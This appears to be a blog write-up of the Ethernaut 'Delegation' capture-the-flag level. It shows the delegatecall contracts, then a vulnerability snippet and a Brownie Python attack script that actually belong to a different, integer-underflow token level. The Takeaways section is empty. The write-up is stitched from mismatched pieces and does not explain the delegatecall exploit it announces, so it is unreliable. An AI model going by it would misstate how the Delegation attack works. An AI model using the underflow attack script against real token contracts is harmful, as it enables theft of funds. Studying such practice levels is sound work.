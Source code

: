 ```yaml
---
title: Ethernaut - Level 06 - Delegation
date: 2022-09-16
---
```

{{<figure src="../images/delegation-6.svg" caption="Image courtesy of OpenZeppelin">}}
## Ethernaut 06 - Delegation
This level from Ethernaut, Delegation, is about a special Solidity method called `delegatecall()`. To complete this level we must understand how this low level function works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```




## Where is the vulnerability?


```solidity {lineos=table,hl_lines=[2],lineofstart=1}
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // _value >= 21
    balances[msg.sender] -= _value; // 20 - 21 = 255
    balances[_to] += _value; // 0 + 21 = 21
```

## Hacking the contract


```python {lineos=table,hl_lines=[5,10,12],lineofstart=1}
from brownie import accounts, config, interface

def attack(token, hacker, fake_account):
    print(f'Balance before attack: {token.balanceOf(hacker)}')
    tx = token.transfer(fake_account, 21, {'from': hacker, 'allow_revert':True})
    tx.wait(2)
    print(f'Balance after attack: {token.balanceOf(hacker)}')

def main(target):
    token = interface.TokenInterface(target)
    hacker = accounts.add(config['wallets']['from_key'])
    fake_account = "0x00000000000000000000000000000000cafebabe"

    attack(token, hacker, fake_account)
```


## Takeaways
